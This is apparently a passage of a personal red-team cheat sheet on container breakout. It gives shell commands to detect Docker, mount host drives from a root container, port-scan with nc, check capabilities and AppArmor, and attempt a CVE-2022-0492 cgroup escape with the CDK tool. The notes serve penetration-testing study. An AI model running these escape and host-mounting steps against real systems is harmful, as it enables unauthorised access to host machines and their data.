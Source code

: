 To identify if we are within a container:

```shell!
$ ls /.dockerenv # pretty explicit
$ ps # a small number would be weird
$ grep 'docker\|lxc' /proc/1/cgroup
```

If we are in a container as root, and we can access hard drives <small>(fdisk output is not empty)</small>, then we can mount the drive and read its files:

```ps
$ fdisk -l
$ mkdir -p /mnt/sda1 && mount /dev/sda1 /mnt/sda1
```
```ps
$ # is there some weird partition mounted?
$ mount | grep -v /proc | grep -v /sys | grep -v overlay
```

You can look for open ports using [port scanning](/cybersecurity/red-team/s2.discovery/techniques/network/port_scanning.md):

```ps
$ nc -zv IP 1-65535 # you may use pivoting tools such as chisel to access them
$ ip a # if available (check ifconfig?), find available networks
$ ping 172.17.0.1 # if available, test to access the host
$ netstat -tunlpa # if available, may be handy too
```

Look if the container was executed with dangerous capabilities:

```shell!
$ capsh --print # cap_sys_admin? etc.
$ cat /sys/kernel/security/apparmor/profiles # Not Found=>No Apparmor
```

If you have `cap_sys_admin` and AppArmor is not enabled: try [CVE-2022-0492](https://nvd.nist.gov/vuln/detail/CVE-2022-0492) <small>(release_agent PoC one or two on Hacktricks)</small>.

```shell!
$ ./cdk run mount-cgroup "<some command>"
$ ./cdk run rewrite-cgroup-devices # debugfs -w result
```

Try to find if a docker socket is present or reachable.

#### Docker Additional Notes

* Usage of cgroups to limit memory usage etc.
* Usage of seccomp to blacklist system calls
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.
